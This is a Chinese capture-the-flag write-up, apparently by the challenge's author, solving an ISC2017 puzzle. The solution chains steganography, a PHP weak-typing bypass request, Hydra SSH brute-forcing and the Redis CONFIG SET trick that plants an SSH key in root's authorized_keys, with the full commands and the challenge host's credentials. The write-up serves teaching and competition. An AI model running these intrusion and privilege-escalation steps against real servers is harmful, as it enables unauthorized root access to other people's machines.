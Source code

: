> 原文链接: https://www.anquanke.com//post/id/86847 


# 【CTF 攻略】ISC2017 DEFCON GROUP 解救Cookie Write-Up


                                阅读量   
                                **131709**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t0168462064ee37dea5.png)](https://p1.ssl.qhimg.com/t0168462064ee37dea5.png)

<br>

**0x00：写在前面**

实不相瞒这题是我出的，因为帮基友捧场外加想试一下出题，所以出了这么一道题给大家，结果由于本人13号还有一个topic在大数据与威胁分析论坛，最后导致柴总爱犬被多关了24个小时，本人对此深表歉意。还有各位大佬表哥表姐先别着急给我寄刀片，我拒收任何快递，得意.jpg。

首先先来说一下题目本身：这次题是一道披着CTF题，但实际考察是渗透测试和入侵检测的点，所以各位赛棍很多人都卡在了开始甚至是某首次攻破vmware的大表哥（其实这事儿赖我）。

解题的正常思路是这样的：Google Hacking-》代码审计（可以绕过）-》SSH暴力破解-》Redis提权写入SSH密钥-》修改文件-》开锁。



**0x01：隐写题目**

这道题说着是考隐写，实际上则是考察的大家利用搜索引擎解决问题，因为之前在赛场上给过大家一点提示：使用最简单最直接的方法去解决问题，谷歌/百度/360搜索：隐写在线工具，解密的工具在：[图片隐写术加密 – 图片隐写术解密 – 图片中隐藏文字信息 – aTool在线工具](http://link.zhihu.com/?target=http%3A//www.atool.org/steganography.php)，将图片下载到本地利用这个工具解密可以得到Flag：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01c84fea09a16915b9.png)

这里可以得到下一题的Flag。



**0x02：代码审计**

这个题目是一个送分题，可以很清楚的看到使用弱类型可以得到flag，PoC：

```
curl "http://sweeperssl.synology.me:8081/index.php?pass1%5B1%5D=123&amp;pass2%5B%5D=123&amp;nsukey=hxOXBF7yMVWo5%2BZfUhvr6m%2FaT4vDgA7gIiIarcM8JfOtyRB3OmxCzjclJkiNmjtjxD8wTaA%2FLPvUFhW64xKXkDbjaJhwsbWRlDAeIuYI2B0RHi4oWAmJGg1ajGlYHZ3bXJAo%2BSHAMjKZ%2BqeThcytW%2FoHhaSzD0tlXe%2B49LqheWVou3lIBHNJRR07%2Fh3FaNbK"
```

重点提示是在第一句话，仔细阅读理解题目可以得到913端口为SSH端口（明天（9.13）OpenSSH会发布漏洞（SSH弱口令）），使用Hydra直接爆破可以得到服务器弱口令admin/admin。正因为是送分题，所以可以被绕过。



**0x03：SSH爆破/远程登录**

SSH爆破的过程不说了，上面已经说到了，得到服务器密码之后可以远程登录服务器：

```
ssh admin@sweeperssl.synology.me -p 913
```

登陆之后我们会直接去找flag：



```
find / -name lockcommand
Output: /tmp/flag/lockcommand
```

**<br>**

**0x04：写入&amp;提权**

我们得到了flag在/tmp/flag下面，但是使用ls -alh我们可以看到flag的所有者是root：

[![](https://p4.ssl.qhimg.com/t0101b64eea56eb569a.png)](https://p4.ssl.qhimg.com/t0101b64eea56eb569a.png)

所以这个时候你写入的话就会：

[![](https://p0.ssl.qhimg.com/t016a5d97679aa6afa8.png)](https://p0.ssl.qhimg.com/t016a5d97679aa6afa8.png)

如果尝试sudo的话，你们会发现sudo被我干掉了:)

所以说很明显提权这里不是用来sudo的，那么这个时候需要看一下有没有能提权的东西，我们使用

```
netstat -ano
```

来查看有没有什么端口开着：

[![](https://p1.ssl.qhimg.com/t01a6eca0e65f917820.png)](https://p1.ssl.qhimg.com/t01a6eca0e65f917820.png)

恩，我们看到了一个**127.0.0.1:62379**的端口，再使用

```
ps -ef|grep 62379
```

可以看到服务是一个redis服务：



```
admin@DC012:$ps -ef|grep 62379
Output: redis-server 127.0.0.1:62379
```

这个时候鸡贼的各位兄贵直接撸起袖子就是干，直接使用

```
redis-cli -p 62379
```

结果发现：

[![](https://p4.ssl.qhimg.com/t01655d568ab25fdc1d.png)](https://p4.ssl.qhimg.com/t01655d568ab25fdc1d.png)

惊不惊喜！意不意外！开不开心！Redis不仅没有开放公网，而且还有认证，233333，是不是很想给出题人寄刀片？但是先不着急，我们可以找配置文件啊，所以果断找一下配置文件：



```
admin@DC012:$ find / -name redis.conf
Output: /usr/bin/redis/redis.conf
```

然后你们就会去很鸡贼的查看密码：



```
admin@DC012: $ cat /usr/bin/redis/redis.conf |grep requirepass
Output: #requirepass password
admin@DC012: $ cat /usr/bin/redis/redis.conf |grep Port
Output: Port 6379
```

答题人：WTF？Redis的端口不是62379么？怎么变成了6379？我可能遇到了假的配置文件！！

是的没错，这里是一个坑，你以为你以为的就是真的？Nope！其实真实的配置文件在/usr/sbin/red1s.conf下面，这里你可以通过文件来获得redis的密码：

[![](https://p0.ssl.qhimg.com/t0148b880a96d50167b.png)](https://p0.ssl.qhimg.com/t0148b880a96d50167b.png)

然后你就会测试一下：

[![](https://p4.ssl.qhimg.com/t01d050eaddb5171381.png)](https://p4.ssl.qhimg.com/t01d050eaddb5171381.png)

恩，看来这次终于解决了（内心OS：大哥为什么要这么玩我）

然后就是正常的Redis写SSH密钥套路：



```
test@elknot360corpsec: $ ssh-keygen -t rsa -C fxckU
test@elknot360corpsec: $ cd ~/.ssh
test@elknot360corpsec: $  (echo -e 'nn';cat id_rsa.pub;echo -e "nn") &gt; foo.txt
test@elknot360corpsec: $ scp foo.txt -P 913 admin@sweeperssl.synology.me:foo.txt
```

另一台机器：



```
admin@DC012: $ redis-cli -p 62379 -a cookie@dc010 flushall
admin@DC012: $ redis-cli -p 62379 -a cookie@dc010 -x config set dir /root/.ssh
admin@DC012: $ redis-cli -p 62379 -a cookie@dc010 -x config set dbfilename authorized_keys
admin@DC012: $ redis-cli -p 62379 -a cookie@dc010 save
admin@DC012: $ cat foo.txt| redis-cli -p 62379 -a cookie@dc010 -x set crackit
admin@DC012: $ cat foo.txt| redis-cli -p 62379 -a cookie@dc010 save
```

这个时候你就可以干任何可怕的事儿了：



```
test@elknot360corpsec: $ ssh -i id_rsa root@sweeperssl.synology.me -p 913
admin@DC012:#
admin@DC012:# echo unlock &gt; /tmp/flag/lockcommand
```

OK Cookie就被放出来了:)

[![](https://p4.ssl.qhimg.com/t011aab501fc39829f0.jpg)](https://p4.ssl.qhimg.com/t011aab501fc39829f0.jpg)

Finally: 大家千万不要给我寄刀片，有话我们可以好好说，facepalm.png
